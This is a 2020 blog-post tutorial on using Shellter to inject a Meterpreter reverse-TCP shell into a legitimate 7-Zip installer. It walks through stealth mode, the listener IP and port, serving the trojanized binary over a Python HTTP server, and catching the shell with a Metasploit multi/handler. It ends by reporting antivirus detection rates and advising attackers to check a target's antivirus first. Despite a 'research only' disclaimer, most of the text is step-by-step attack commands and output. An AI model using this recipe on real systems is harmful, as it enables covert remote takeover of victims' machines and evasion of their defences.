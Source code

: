 ```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will also install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

![//pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic1.PNG)

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic2.PNG)


## Enable stealth mode

Let's wait for a second..

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic3.PNG)

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic4.PNG)

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic5.PNG)

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified

![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic6.PNG)

## Transfering file

Transfer malicious PE file to our Windows client. For our case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

In our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...
 ![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic7.PNG)
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.
![//pic8](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic8.PNG)

As you can see above, the binary act normally and our payload is executed. Hooray.
![//pic9](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic9.PNG)

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.
![//pic10](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic10.PNG)

As you can see, there is a lot of AV that doesnt detect this malware too.
![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic11.PNG)

So, make sure to gather information about our target client's AV first before attempt to attack.


## Thanks for reading
